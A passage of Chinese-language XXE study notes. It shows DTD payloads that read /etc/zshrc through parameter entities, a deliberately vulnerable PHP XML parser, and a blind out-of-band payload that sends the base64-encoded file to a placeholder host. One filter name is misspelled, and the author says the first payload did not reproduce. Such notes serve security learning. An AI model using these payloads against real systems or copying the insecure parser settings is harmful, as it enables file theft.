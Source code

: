 - ~~xml中直接，连续引用多个实体~~
- 借助参数实体

> 其实重点是，字符串拼接，要拼接好了再在xml中引用；而不能再xml中拼接；
>
> 作者这里用到了参数实体进行拼接，是因为参数实体在dtd中引用，通用实体在xml中引用。

Payload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root[
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % goodies SYSTEM "file:///etc/zshrc">
  	<!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
    %dtd;
  ]
>

<root>&all</root>
```

evil.dtd

```dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

> 此处有问题，无法复现

### 4.2 无回显读取本地文件(Blind OOB XXE)

xml.php

```php
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

payload

```dtd
<!DOCTYPE convert [ 
    <!ENTITY % remote SYSTEM "http://ip/test.dtd">
    %remote;%int;%send;
  ]
>
```

Test.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convet.base64-encode/resource=file:///etc/zshrc">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```
